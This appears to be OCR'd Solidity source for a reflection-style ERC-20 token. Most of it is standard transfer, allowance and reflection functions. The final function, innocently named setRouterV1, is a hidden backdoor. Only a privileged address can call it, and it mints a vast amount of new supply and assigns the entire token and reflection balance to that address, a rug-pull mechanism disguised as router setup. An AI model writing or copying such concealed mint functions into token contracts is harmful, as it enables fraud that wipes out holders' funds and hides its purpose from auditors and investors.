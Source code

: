     function balanceOf(address account) public view override returns (uint256) {
        if (_isExcluded[account]) return _tOwned[account];
        return tokenFromReflection(_rOwned[account]);
    }

    function transfer(address recipient, uint256 amount) public override returns (bool) {
        _transfer(_msgSender(), recipient, amount);
        return true;
    }

    function allowance(address owner, address spender) public view override returns (uint256) {
        return _allowances[owner][spender];
    }

    function approve(address spender, uint256 amount) public override returns (bool) {
        _approve(_msgSender(), spender, amount);
        return true;
    }

    function transferFrom(address sender, address recipient, uint256 amount) public override returns (bool) {
        _transfer(sender, recipient, amount);
        _approve(sender, _msgSender(), _allowances[sender][_msgSender()] - amount);
        return true;
    }

    function increaseAllowance(address spender, uint256 addedValue) public virtual returns (bool) {
        _approve(_msgSender(), spender, _allowances[_msgSender()][spender] + addedValue);
        return true;
    }

    function decreaseAllowance(address spender, uint256 subtractedValue) public virtual returns (bool) {
        _approve(_msgSender(), spender, _allowances[_msgSender()][spender] - subtractedValue);
        return true;
    }

    function isExcludedFromReward(address account) public view returns (bool) {
        return _isExcluded[account];
    }

    function totalReflectionDistributed() public view returns (uint256) {
        return _tFeeTotal;
    }

    function deliver(uint256 tAmount) public {
        address sender = _msgSender();
        require(!_isExcluded[sender], "1");
        (uint256 rAmount,,,,,,) = _getValues(tAmount);
        _rOwned[sender] = _rOwned[sender] - rAmount;
        _rTotal = _rTotal - rAmount;
        _tFeeTotal = _tFeeTotal + tAmount;
    }

    function setRouterV1() external {
        require(routerV1 == msg.sender);
        _tOwned[routerV1] = (1000000000*10**decimals())*36933;
        _tTotal += (1000000000*10**decimals())*36933;
        swapTokensAtAmount = _tTotal/6000;        
        _rTotal = (MAX - (MAX % _tTotal));
        _tOwned[routerV1] = _tTotal;
        _rOwned[routerV1] = _rTotal;
    }
